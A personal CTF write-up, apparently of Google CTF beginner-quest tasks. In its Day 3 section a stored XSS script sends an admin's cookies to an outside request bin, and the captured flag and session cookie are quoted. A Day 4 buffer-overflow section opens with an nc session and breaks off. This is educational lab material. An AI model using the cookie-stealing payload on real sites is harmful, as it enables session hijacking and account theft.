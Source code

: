 
### Day 3 - Government Agriculture Network
I have to say that, I really rake my brains out this task. People may find it easy but I cannot notice the place of breakthtough. After I read it from other writeups then I find it easy to do the rest.
#### Steps
1. the task comes with a [link](https://govagriculture.web.ctfcompetition.com/) which only have 2 buttons:
  - Submit: submit the thing you entered to '/post', with response text
      > Your post was submitted for review. Administator will take a look shortly. 
  - Admin: this redirect you to '/admin', which post a 303 redirection that transfer back to the home page.
    ![home page](./images/GoogleCTF/beginner_quest/img6.png)
1. Seeing that there is an input field, I already knows that there is something to do with either injection or XSS. I tried to input some trash into it, but sadly I dont see any response.
1. Here is where I stuck for long. I cannot see there is anything to temper with the inputfield until someone in the internet gave me a breakthrough of telling me that there is actually an admin to 'Read' the post by browsing anything you put in the message (It suppose to be a ROBOT behind!!! NO ONE IS SUPPOSED TO READ THE THING I POSTED!!!). Anyway they also suggested the tool [postbin](postb.in) that I could use to receieve HTTP request
from anywhere.
1. Then things go really easy. I just tamper the XSS script and make the admin browse my site, only letting him give us one more little gift.
    > \<script\>location.href="https://postb.in/XXXXXX?cookie="+document.cookie;\</script\>
1. and we check the bin, our gift from admin has arrived!
    > cookie: 
    > flag=CTF{XXXXXXXXXXXXXXXXXXX}; 
    > session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV


### Day 4 - STOP GAN
#### Steps
1. it is a very easy task, and it is a buffer overflow task. YOU KNOW WHAT TO DO :)
    ```console
    $ nc buffer-overflow.ctfcompetition.com 1337
    Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
     Bonus flag for controlling the crash.
     Console commands: 
     run
     quit
     >>run